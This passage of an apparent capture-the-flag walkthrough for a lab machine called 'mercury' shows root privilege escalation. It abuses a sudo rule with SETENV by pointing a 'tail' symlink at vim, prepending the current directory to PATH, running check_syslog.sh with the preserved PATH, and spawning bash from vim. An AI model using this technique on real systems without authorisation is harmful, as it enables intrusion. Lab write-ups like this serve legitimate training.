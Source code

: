 With this, I logged on to the user `linumaster`.
```
webmaster@mercury:~$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster$
```

Later I found that it was worth checking what permissions `sudo` user `linuxmaster` has.
```
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

This result means that the `linuxmaster` user has very limited sudo privileges - he can only run one specific command with `root` privileges.
- `SETENV`: - means that the user can set environment variables (e.g. `ENV=...`) while running this command.
- `/usr/bin/check_syslog.sh` - this is the only script that `linuxmaster` can run via `sudo`.

### `check_syslog.sh` file
I found that it was a good idea to check the contents of the `check_syslog.sh` file. It does a very simple thing - it shows the last 10 lines from the `/var/log/syslog` file.

```
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

I decided to look for information on the log file. I found out that the `syslog` script is executed with environment variables intact, which could let an attacker manipulate the `PATH` variable to run arbitrary commands. This makes it possible to exploit the `PATH` variable for malicious purposes.

To take advantage of this vulnerability, I performed the following steps:

1. I created a symbolic link (alias) named `tail` that points to `/usr/bin/vim`: `ln -s /usr/bin/vim tail`
2. I modified the PATH environment variable on the system: `export PATH=$(pwd):$PATH`
3. I executed the `/usr/bin/check_syslog.sh` script as the `root` user, with the `PATH` environment variable preserved, which means that the `PATH` variable of the user (not the `root` user) is preserved when executing the command: `sudo --preserve-env=PATH /usr/bin/check_syslog.sh`

After executing the three commands above, the `vim` editor will open. Then, I typed `:!/bin/bash` and exited `vim`.

<p align="center">
  <img src="images/bin_bash.png">
</p>
